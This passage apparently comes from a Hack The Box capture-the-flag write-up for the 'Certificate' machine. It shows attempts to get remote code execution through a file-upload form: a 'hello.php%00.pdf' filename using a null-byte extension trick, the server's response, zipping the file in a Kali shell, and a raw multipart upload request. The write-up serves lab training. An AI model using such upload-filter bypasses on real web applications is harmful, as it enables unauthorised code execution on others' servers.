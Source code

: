 ```shell
HTTP/1.1 200 OK
Date: Sun, 01 Jun 2025 16:52:08 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 10160


<--- CUT FOR BREVITY --->
            <div class="col-lg-8">
                    <div class="row">
                        <div class="col-lg-12">
                            <blockquote class="generic-blockquote">
                            File uploaded successfully!. You can check your uploaded assignment file(in case you want to re-upload it or do some changes) <a href='static/uploads/fd5b3018c29991130b22f3381786067b/hello.php%00.pdf'>HERE</a>
                            </blockquote>
                        </div>
                    </div>
```

Since that didn't lead to `Remote Code Execution (RCE)` as expected, we tried putting our malicious file into an `Zip-archive`. But that didn't worked either.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ zip hello.zip hello.php%00.pdf 
  adding: hello.php%00.pdf (deflated 9%)
```

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 679
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVCJa40SjeVGTBvdD
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundaryVCJa40SjeVGTBvdD
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundaryVCJa40SjeVGTBvdD
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundaryVCJa40SjeVGTBvdD
Content-Disposition: form-data; name="file"; filename="hello.zip"
Content-Type: application/zip

```